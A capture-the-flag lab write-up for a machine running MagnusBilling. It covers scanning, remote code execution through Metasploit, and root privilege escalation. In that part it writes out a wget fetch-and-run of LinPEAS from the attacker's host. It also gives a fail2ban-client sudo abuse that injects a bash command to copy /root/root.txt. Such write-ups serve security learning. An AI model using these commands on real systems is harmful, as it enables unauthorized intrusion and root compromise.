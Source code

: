 # Billing
IP - 10.10.59.81

## Scanning and Enumeration
nmap scan:
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey:
|   3072 79:ba:5d:23:35:b2:f0:25:d7:53:5e:c5:b9:af:c0:cc (RSA)
|   256 4e:c3:34:af:00:b7:35:bc:9f:f5:b0:d2:aa:35:ae:34 (ECDSA)
|_  256 26:aa:17:e0:c8:2a:c9:d9:98:17:e4:8f:87:73:78:4d (ED25519)
80/tcp   open  http    Apache httpd 2.4.56 ((Debian))
|http-server-header: Apache/2.4.56 (Debian)
| http-title:             MagnusBilling
|Requested resource was http://10.10.59.81/mbilling/
| http-methods:
|  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry
|/mbilling/
3306/tcp open  mysql   MariaDB 10.3.23 or earlier (unauthorized)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
```
dirsearch:

/robots.txt - found: /mbilling/

- MagnusBilling - found by going to HTML source code (ctrl + U)

## Remote Code Execution using Metasploit
- In msfconsole searched for MagnusBilling 
![image](https://github.com/user-attachments/assets/68f4782c-c1eb-4e5d-b169-ccba7dd631e7)
- set RHOST and LHOST and then ran the command
![image](https://github.com/user-attachments/assets/9d00dd2e-127f-4bfa-8a3b-9b850ad14913)

- Navigate /home > found user "magnus" and inside his files I found the first flag.
- found id
``` 
id
uid=1001(asterisk) gid=1001(asterisk) groups=1001(asterisk)
``` 
- Executed LinPEAS to get more info about the machine:


1). ``` python3 -m http.server 8000 ``` (opened new tab in the terminal and ran this command in LinPEAS directory)


2). On the target machine I ran those 3 commands: ``` wget http://10.6.41.41:8000/linpeas.sh -O /tmp/linpeas.sh ```


3). ``` chmod +x /tmp/linpeas.sh ```


4). ``` /tmp/linpeas.sh ```


5). results found:
```
Runas and Command-specific defaults for asterisk:
Defaults!/usr/bin/fail2ban-client !requiretty

User asterisk may run the following commands on Billing:
(ALL) NOPASSWD: /usr/bin/fail2ban-client
```
> indicating that you can run fail2ban-client without a password
![image](https://github.com/user-attachments/assets/ccf1934f-1b38-49a2-9288-182c3b35fc81)

## Exploit
Found exploit for fail2ban-client - https://vulners.com/packetstorm/PACKETSTORM:189989
- Step by step:

1). ``` sudo /usr/bin/fail2ban-client restart ```

2). ``` sudo /usr/bin/fail2ban-client set sshd action iptables-multiport actionban "/bin/bash -c 'cat /root/root.txt > /tmp/root.txt && chmod 777 /tmp/root.txt'" ```

3). ``` sudo /usr/bin/fail2ban-client set sshd banip 127.0.0.1 ```

4). ``` cat /tmp/root.txt ``` > captured the last flag
![image](https://github.com/user-attachments/assets/e7ed40cb-c154-4ef2-ba5f-61ed88d15968)
